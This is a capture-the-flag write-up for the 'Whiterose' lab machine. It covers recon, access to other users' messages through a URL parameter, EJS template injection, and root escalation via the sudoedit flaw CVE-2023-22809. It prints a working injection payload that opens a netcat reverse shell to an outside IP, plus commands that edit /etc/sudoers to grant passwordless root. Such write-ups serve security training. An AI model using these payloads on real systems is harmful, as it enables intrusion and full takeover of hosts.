





# Whiterose

#Linux #PrivEsc #WebExploitation #nodejs #LFI #SSTI #CVE-2023-22809
## Recon

I started running nmap and I got the result:

```
$ nmap -sV -sC 10.66.128.105 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-14 05:17 -0500
Nmap scan report for cyprusbank.thm (10.66.128.105)
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:07:96:0d:c4:b6:0c:d6:22:1a:e4:6c:8e:ac:6f:7d (RSA)
|   256 ba:ff:92:3e:0f:03:7e:da:30:ca:e3:52:8d:47:d9:6c (ECDSA)
|_  256 5d:e4:14:39:ca:06:17:47:93:53:86:de:2b:77:09:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.40 seconds
```

I tried to find some files and directories in `cyprusbank.thm` but I didn't find anything interesting. 

<figure><figcaption></figcaption></figure>

After that I tried to find subdomains.

```
$ ffuf -u http://cyprusbank.thm -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -mc all -fs 57

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://cyprusbank.thm
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.cyprusbank.thm
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: all
 :: Filter           : Response size: 57
________________________________________________

admin                   [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 131ms]
www                     [Status: 200, Size: 252, Words: 19, Lines: 9, Duration: 129ms]
#www                    [Status: 400, Size: 182, Words: 7, Lines: 8, Duration: 126ms]
#mail                   [Status: 400, Size: 182, Words: 7, Lines: 8, Duration: 126ms]

```

It's important to add the subdomain in the `/etc/hosts` file.

<figure><figcaption></figcaption></figure>

## Exploiting

We were given these credentials to log in: Olivia Cortez:olivi8

<figure><figcaption></figcaption></figure>

Once logged into the application, I searched for any possible attack vector.


<figure><figcaption></figcaption></figure>

There is a `c` parameter in the `/messages` page, I managed to find some previous messages changing this parameter.

<figure><figcaption></figcaption></figure>

I was able to login as Gayle Bev user. I can now access the Settings page that I couldn't access before.

<figure><figcaption></figcaption></figure>

This page allows you to change any user's password (but it does not work). Probably there is a XSS or SSTI, because the password field is reflected.

<figure><figcaption></figcaption></figure>

If I send just the name field, the application returns an error that indicates that the application is using EJS (*EJS (Embedded JavaScript Templates) is a template language for Node.js that allows you to embed JavaScript code directly into HTML files*).

In searching for SSTI payloads, I found the following source:




<figure><figcaption></figcaption></figure>

First I tried to connect to my localhost on port 1337 and it worked!

After that, I tried some reverse shells and this one worked for me:

```
name=test&password=123&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('busybox nc 192.168.130.101 1337 -e sh');s
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation

First of all, I ran a `sudo -l` and I noticed that I could run `sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm` as root without a password.

<figure><figcaption></figcaption></figure>

While searching for vulnerabilities in the `sudoedit` (version `1.9.12p1`) I found the `CVE-2023-22809` vulnerability which is explained in the first link below, we can see more details in the second link.





In short, sudoedit allows us to choose which editor we want to use by passing some of these environment variables: **SUDO_EDITOR**, **VISUAL**, or **EDITOR**. By using `--` argument, we can force it to open different files that are allowed in the `sudoedit` command but that we don't have privileges to access. This way, we can run `sudoedit` as root and edit any file as root.

```
export EDITOR="vim -- /etc/sudoers"
sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

I will modify the `/etc/sudoers` file to give my user access to execute commands as sudo without needing a password. I just need to add this line below:

```
web ALL=(root) NOPASSWD: ALL
```

<figure><figcaption></figcaption></figure>

It's done! I was able to elevate my privilege to root.

<figure><figcaption></figcaption></figure>
